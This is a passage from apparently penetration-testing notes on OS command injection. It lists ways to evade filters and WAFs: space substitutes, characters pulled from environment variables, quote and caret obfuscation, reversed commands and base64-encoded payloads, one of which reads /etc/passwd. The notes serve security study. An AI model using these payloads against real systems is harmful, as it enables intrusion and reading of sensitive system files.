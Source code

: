 | Sub-Shell | $() | %24%28%29 | Both (Linux-only) |
- **Note**: semicolon (;) won't work with Windows CMD, but work with Windows PowerShell (e.g., `ping -c 1 127.0.0.1; whoami`)

### 2.3 Filter/WAF Evasion
1. Bypass space filters
    - Using Tabs (`%09`)
        - Example: `ping%09127.0.0.1`
    - Using $IFS (Internal Field Separator)
        - Example: `ping${IFS}127.0.0.1`
    - Using Brace Expansion
        - Example: `{ping,-c,1,127.0.0.1}`
    - New Line character (`%0a`)
        - Example: `ping%0a127.0.0.1`

2. Bypass other blacklisted chars filters
    - **Linux Environment Variables**
        - Using ${PATH} for slash: `${PATH:0:1}` -> `/`
        - Using ${LS_COLORS} for semicolon: `${LS_COLORS:10:1}` -> `;`
    
    - **Windows Environment Variables**
        - CMD: `%HOMEPATH:~6,-11%` -> `\`
        - PowerShell: `$env:HOMEPATH[0]` -> `\`
    
    - **Character Shifting**
        - Linux: `$(tr '!-}' '"-~'<<<[)` -> `\`
        - Using ASCII table to find character before target
        - Example: `[` (ASCII 91) shifts to `\` (ASCII 92)

3. Bypass blacklisted commands
    - **Using Quotes**
        - Single quotes: `w'h'o'am'i`
        - Double quotes: `w"h"o"am"i`
        - Works on both Linux and Windows
        
    - **Linux-specific**
        - Backslash: `w\ho\am\i`
        - Position parameter: `who$@ami`
        
    - **Windows-specific**
        - Caret character: `who^ami`
    
    - **Note**: Commands must have even number of quotes when using quote obfuscation.

4. Advanced command obfuscation
    - **Case Manipulation**
        - Windows (case-insensitive): `WhOaMi`
        - Linux (case-sensitive): `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
    
    - **Reversed Commands**
        - Linux: `$(rev<<<'imaohw')`
        - Windows PowerShell: `iex "$('imaohw'[-1..-20] -join '')"`
    
    - **Encoded Commands**
        - Linux Base64:
            ```bash
            bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
            ```
        - Windows Base64:
            ```powershell
            iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
            ```
